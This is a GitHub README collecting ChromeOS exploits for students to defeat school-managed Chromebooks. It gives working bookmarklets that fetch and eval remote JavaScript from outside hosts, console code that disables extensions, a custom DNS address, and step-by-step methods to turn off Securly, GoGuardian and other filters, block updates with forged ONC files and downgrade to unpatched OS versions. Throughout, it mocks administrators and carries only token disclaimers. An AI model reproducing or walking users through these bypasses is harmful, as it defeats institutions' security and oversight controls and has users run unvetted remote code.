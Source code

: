 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan
<details>
<summary><b> Extension Launcher(Bookmarklet) </summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>
<details>
<summary><b>New Point-Blank</b> (Run scripts on extension pages)</summary>
This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

*Scroll down to preform this exploit!*


<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
  1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> (on your school chromebook of course)
2. Make a bookmark with the code there.
3. Once that is done.
  If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload(you have to actually have securly ofc)
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>, 
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a> 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>LTBEEF inspect</b> (Using inspect to disable extensions)</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.
</details>

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

1. Bookmark this code:
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt. 
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b></summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for sertain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
  <summary><b>Killcurly</b></summary>
Kill extension, by signing out.

1. Visit chrome://settings/signOut the O in Out must be capital.
2. Press the blue button
3. Go to chrome://restart
4. Now visit tinyurl.com/AddSession
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google   service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
  
  **Using this, may get your computer taken away if your school finds out.** 
**This was discoverered by zoroark**
Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
